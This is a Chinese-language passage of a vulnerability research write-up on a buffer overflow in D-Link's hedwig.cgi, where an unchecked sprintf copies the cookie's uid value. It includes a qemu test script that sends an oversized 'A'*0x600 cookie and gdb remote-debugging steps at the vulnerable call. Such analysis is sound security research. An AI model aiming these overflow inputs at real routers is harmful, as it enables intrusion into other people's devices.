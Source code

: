 对`sess_get_uid`函数的逻辑继续进行分析，发现该函数的主要逻辑是用`getenv()`函数获取请求包中`COOKIE`的值，然后对`COOKIE`值中`uid=`后面的内容用`sobj_add_char`函数逐个字符添加到一个结构体中。这里发现`sobj_add_char`和`sobj_get_string`这两个函数特别像为一个老板服务的，这里`sobj_get_string`函数就是从结构体中将`cookie`的关键值取出，再传参到危险函数`sprintf`函数中造成溢出。（这里用ghidra进行反汇编是会出问题的，比如这里ghidra错误将函数`sprintf`函数解释成了`snprintf`函数。）

后来发现Dlink的`sobj_xxx`系列函数的功能就是用来处理字符串，在网上找到了[源码](https://github.com/patrick-ken/MyNet_N900/blob/master/elbox_WRGND15/comlib/strobj.c)。

-------------------------------

- 动态调试

漏洞测试脚本cgi_run.sh

```sh
# cgi_run.sh
# sudo bash ./cgi_run.sh  'uid=1234'  `python  -c "print 'uid=1234&password='+'A'*0x600"`
INPUT="$1"
TEST="$2"
LEN=$(echo -n "$INPUT" | wc -c)
PORT="1234"
cp $(which qemu-mipsel-static) ./qemu
echo "$INPUT" | chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencodede" -E SCRIPT_NAME="common" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$TEST -E REQUEST_URI="/hedwig.cgi" -E REMOTE_ADDR="192.168.33.2" -g $PORT /htdocs/web/hedwig.cgi 2>/dev/null
echo "run ok"
rm -f ./qemu
```

使用下面的命令运行cgi_run.sh脚本，此时qemu运行hedwig.cgi，并等待gdb连接到端口1234

```bash
$ sudo ./cgi_run.sh  'uid=1234'  `python  -c "print 'uid=1234&password='+'A'*0x600"`
```

-----------------

**注**：

1.ubuntu默认的sh是连接到dash的，又因为dash跟bash的不兼容所以出错（unexpected operator），执行时可以把sh命令换成`bash 文件名.sh`来执行。

2.`cp $(which qemu-mipsel-static) ./qemu`命令中的`$(which ******)`部分要根据设备的程序架构情况来修改：用`file`命令查看bin文件夹中的的程序架构

-----

在192.168.1.1机器上运行gdb-muliarch(安装pwndbg插件方便查看)对程序进行远程动态调试

```sh
$ gdb-multiarch -q
> set architecture mips#设置指令架构为mips架构
> set endian little #设置是大小端
> target remote 192.168.33.3:1234 #远程连接调试
> b *0x409680 #再sprintf处设置断点
#sprintf(v27, "%s/%s/postxml", "/runtime/session", v6);
> c
#查看寄存器情况
gdb-peda$ i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 fffffff8 0042e718 0042e718 0042e008 0041a860 0041a5b8 0042e718
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   767ab4c8 00000629 fffffff8 ffffffe0 00000000 767ab4e8 fffffffc 0040e98c
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  0042e0f0 76ffe628 0041a5b8 76ffe5a8 76ffe580 0042e008 004023e0 00000000
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  0000000c 004197f0 00000000 00000000 004346d0 76ffe568 0042e028 00409668
            sr       lo       hi      bad    cause       pc
      20000010 0001e78d 0000019e 00000000 00000000 00409680
           fsr      fir
      00000000 00739300
```